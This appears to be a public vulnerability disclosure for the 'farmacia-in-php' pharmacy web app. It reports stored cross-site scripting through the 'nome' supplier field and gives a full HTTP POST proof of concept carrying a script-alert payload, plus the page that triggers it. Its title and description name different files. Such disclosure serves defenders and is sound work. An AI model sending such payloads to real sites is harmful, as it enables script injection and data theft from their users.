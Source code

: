 # farmacia-in-php has Cross Site Scripting vulnerability in adicionar-produto.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
adicionar-produto.php

## describe
In adicionar-fornecedor.php.There are unrestricted cross site scripting attacks and injection attacks in the farmacia-in-php. The controllable parameters are as follows: nome parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Querying data from the database and storing it in the $reg\[$cont\]\['nome'\], and the echo nome is not filtered, resulting in the execution of XSS statements.

![image-20241128083927477](https://github.com/user-attachments/assets/575b0ac7-8215-478c-99f8-b9a5bd11756c)



## POC

```
POST /adicionar-fornecedor.php HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------343575567911858812221258670237
Content-Length: 1452
Origin: http://farmacia
Connection: close
Referer: http://farmacia/adicionar-fornecedor.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="nome"

<script>alert('xss');</script>
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cpf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="inscricao"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="endereco"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="numero"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="bairro"

11
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cidade"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cep"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="uf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="telefone"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="email"

1@outlook.com
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="acao"


-----------------------------343575567911858812221258670237--

```

![image-20241127093510427](https://github.com/user-attachments/assets/d301c25b-df2d-43c7-8de4-f4bb2f5fe0a3)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

![image-20241126221600209](https://github.com/user-attachments/assets/4ac05f98-aa5b-4e97-a50c-3c8ed574c663)